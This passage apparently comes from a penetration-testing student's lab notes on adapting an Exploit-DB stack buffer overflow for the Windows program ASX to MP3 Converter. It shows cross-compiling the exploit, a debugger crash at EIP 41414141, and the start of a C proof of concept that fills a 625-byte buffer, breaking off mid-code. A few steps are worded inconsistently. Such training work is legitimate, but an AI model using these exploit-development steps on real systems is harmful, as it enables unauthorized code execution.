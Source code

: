 ### Compile
Look at the code. We see from the headers that this is meant for Windows.
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/asx_mp3_converter$ cat 38457.c 
/*
ASX to MP3 Converter SOF - Ivan Ivanovic Ivanov Иван-дурак
недействительный 31337 Team
holahola ~ https://www.exploit-db.com/exploits/38382/
Winblows 2k3
*/

#include <stdio.h>
#include <windows.h>
#include <malloc.h>
```

It cross-compiles without error
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/asx_mp3_converter$ i686-w64-mingw32-gcc 38457.c -o converter_exploit.exe
```

### Run the exploit on Windows.
Transfer the executable to netcat. I saved it on the Desktop. Double-click the executable and you'll see a new file created named exploit.asx
![2d14be917e6f32ea006ef4e59fe8c54f.png](:/d8cf71bea4c34ad6b6a9f317982c0ee8)

Open Immunity Debugger and 'Attach' the ASP to MP3 converter.
![96a5336288a70e64f7ec5211a8176485.png](:/1256ef2843114df49a0621db3a2ef899)

Load exploit.exe into the ASX to MP3 converter app.

Check the debugger, you'll see it crashed at EIP 41414141. Notice ECX may be part part of our buffer, and ESP may also be part of the end of the buffer...
![5554fae7863d156d61341eec28dc4f27.png](:/6feff299fd984149b8fee851fb076373)
![047f50972d6ebad27d32ff5cd4620532.png](:/5bf930eb350e44dca69fb550a363b5a4)

### Crash the app with just all A's
Here is the code with just A's:
```c
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/asx_mp3_converter$ cat 1_poc.c 
/*
ASX to MP3 Converter SOF - Ivan Ivanovic Ivanov Иван-дурак
недействительный 31337 Team
holahola ~ https://www.exploit-db.com/exploits/38382/
Winblows 2k3
*/

#include <stdio.h>
#include <windows.h>
#include <malloc.h>

int main() {

    int i;
    char *overwrite_offset = malloc(625);
    for(i = 0; i < 625; i += 5) {
        char padding[] = "\x41\x41\x41\x41\x41"; 
        memcpy(overwrite_offset + i, padding, strlen(padding));
    }
    memset(overwrite_offset + _msize(overwrite_offset) - 1, 0x00, 1);

    int buffer_size = _msize(overwrite_offset);
```